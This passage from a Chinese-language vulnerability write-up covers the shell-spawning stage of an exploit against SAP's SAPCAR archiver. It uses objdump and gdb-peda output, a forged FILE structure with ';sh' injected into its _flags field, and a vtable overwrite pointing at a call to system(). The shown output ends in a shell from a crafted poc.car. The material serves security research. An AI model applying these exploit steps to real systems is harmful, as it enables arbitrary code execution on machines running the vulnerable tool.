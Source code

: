 **4.3 生成Shell**

成功控制了执行流之后，我们有多种方法来生成Shell。其中一种针对懒人的方法可以通过system("/bin/sh")实现。具体如下：

```
$ objdump -M intel -d sapcar_721.510_linux_x86_64 | grep "&lt;system@plt&gt;"
000000000040bbe0 &lt;system@plt&gt;:
  455db1: e8 2a 5e fb ff         call   40bbe0 &lt;system@plt&gt;
```

此时，我们可以看到RDI寄存器中的指针指向的是伪造FILE结构中的标识字符串：

```
Stopped reason: SIGSEGV
0x0000000041424344 in ?? ()
gdb-peda$ x/xg $rdi
0xa1c870:  0x0000000080018001
```

这也就意味着我们可以在这个缓冲区中存在一个sh字符串，然后重定向执行流并让它调用system命令来拿到Shell。

如果我们修改完后执行程序，我们会发现系统将抛出一个错误（_IO_feof中的分段错误）：

```
=&gt; 0x7ffff6bb9912 &lt;_IO_feof+34&gt;:  cmp    r10,QWORD PTR [r8+0x8]
gdb-peda$ info r r8
r8             0x60606060  0x60606060
```

这是因为我们修改了标识符，而此时文件函数将会尝试访问_lock指针。我们可以使用之前正确的标识符并在后面添加“;sh”来执行Shell。

修改如下：

```
file_struct += "x01x80;shx00x00x00" # _flags
```

然后修改vtable指针：

```
vtable += struct.pack("&lt;Q", 0x455db1) * 21
```

运行下列代码之后，我们就成功拿到了Shell：



```
gdb-peda$ r -vtf poc.car
Starting program: /home/ubuntu/sapcar_721.510_linux_x86_64 -vtf poc.car
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
SAPCAR: processing archive poc.car (version 2.00)
-rw-rw-r--          23    25 Apr 2017 21:18 sapevents.dll
[New process 14925]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
process 14925 is executing new program: /bin/dash
sh: 1: �: not found
[New process 14926]
process 14926 is executing new program: /bin/dash
$ id
uid=1000(ubuntu) gid=1000(ubuntu) groups=1000(ubuntu),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),109(netdev),110(lxd)
```
